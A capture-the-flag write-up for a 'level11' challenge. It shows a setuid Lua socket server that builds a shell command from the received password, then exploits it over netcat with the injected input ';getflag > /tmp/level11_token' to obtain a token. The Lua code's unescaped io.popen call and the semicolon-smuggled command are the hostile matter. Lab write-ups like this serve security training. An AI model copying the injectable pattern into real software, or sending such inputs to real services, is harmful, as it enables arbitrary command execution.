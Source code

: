 # level11 solution
Given lua setuid script:

    #!/usr/bin/env lua
    local socket = require("socket")
    local server = assert(socket.bind("127.0.0.1", 5151))

    function hash(pass)
    prog = io.popen("echo "..pass.." | sha1sum", "r")
    data = prog:read("*all")
    prog:close()

    data = string.sub(data, 1, 40)

    return data
    end


    while 1 do
    local client = server:accept()
    client:send("Password: ")
    client:settimeout(60)
    local l, err = client:receive()
    if not err then
        print("trying " .. l)
        local h = hash(l)

        if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
            client:send("Erf nope..\n");
        else
            client:send("Gz you dumb*\n")
        end

    end

    client:close()
    end

Chck if it's running with netstat:

    netstat -tuln
    tcp        0      0 127.0.0.1:5151          0.0.0.0:*               LISTEN

Connect with netcat and provide some password to see how it's working:

    nc localhost 5151
    Password: pass
    Erf nope..

Hash generates by launching shell subprocess and providing password to to echo which pipes in sha1sum. Provided password does not protected from injection, we can abuse that and insert any command:

    nc localhost 5151
    Password: ;getflag > /tmp/level11_token
    Erf nope..
    cat /tmp/level11_token
    Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
